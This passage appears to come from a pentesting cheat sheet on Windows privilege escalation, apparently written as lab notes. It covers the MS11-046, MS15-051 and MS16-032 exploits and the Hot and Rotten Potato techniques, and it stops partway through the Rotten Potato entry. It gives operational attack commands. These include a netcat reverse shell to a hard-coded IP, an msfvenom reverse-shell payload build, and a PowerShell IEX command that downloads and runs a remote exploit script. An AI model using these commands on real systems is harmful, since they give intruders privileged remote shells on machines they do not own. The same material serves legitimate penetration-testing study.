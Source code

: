 * use the https://www.exploit-db.com/exploits/40564
* compile:
  ##### i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32 
  
  ###### Installation: apt install mingw-w64
* no need listener (insta run)

### Windows
#### MS15-051

* use the https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip
* Check the architecture of victim and choose the right exe
* upload to victim machine
* run the following:
  ###### ms15-051x64.exe "nc.exe 10.10.14.28 4444 -e cmd.exe"
* Needs Listener

### Windows
#### MS16-032

* use https://www.exploit-db.com/exploits/39719
* Edit the file:
  * end of file add this Invoke-MS16-032
  * Inside th file search and find cmd.exe two times.
  * Change with shell.exe in current directory in victim which you are.
  * generate shell.exe:
    ###### msfvenom -p windows/shell_reverse_tcp LHOST=\<ip> LPORT=6666 -f exe > shell.exe
  * serve the shell.exe to victim
  * open a listener
  * run the ps1 exploit:
    ##### C:\windows\sysnative\windowspowershell\v1.0\powershell IEX(New-Object Net.WebClient).downloadString('http://\<ip>/ms16032.ps1')
  
## Potatos
### Hot Potato
What is: Hot Potato (aka: Potato) takes advantage of known issues in Windows to gain local privilege escalation in default configurations, namely NTLM relay (specifically HTTP->SMB relay) and NBNS spoofing.

Affected systems: Windows 7,8,10, Server 2008, Server 2012

Guide: https://foxglovesecurity.com/2016/01/16/hot-potato/

Use: https://github.com/foxglovesec/Potato

### Rotten Potato
What is: Rotten Potato and its standalone variants leverages the privilege escalation chain based on BITS service having the MiTM listener on 127.0.0.1:6666 and when you have SeImpersonate or SeAssignPrimaryToken privileges
